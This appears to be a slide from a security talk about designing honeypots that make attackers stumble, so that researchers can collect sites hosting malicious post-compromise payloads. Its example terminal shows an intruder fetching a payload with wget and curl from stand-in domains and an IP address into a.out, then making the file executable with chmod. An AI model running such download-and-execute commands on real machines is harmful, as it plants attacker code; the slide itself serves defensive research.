

# Inducing (Psychological) Failure… in Honeypots
We want to gather sites with malicious post-compromise payloads

We want to gather as many sites as possible

How can we use psychology to introduce failure? (aka building “Stumble Steps”)
user@exploited:~$ wget baddomain.com/test.jpg –O a.out
Resolving baddomain.com (baddomain.com)... failed: Name or service not known.

user@exploited:~$ curl 174.53.15.95/test.jpg
curl: (22) The requested URL returned error: 403 Forbidden

user@exploited:~$ curl newdomain.com/test.jpg
user@exploited:~$ chmod +x a.out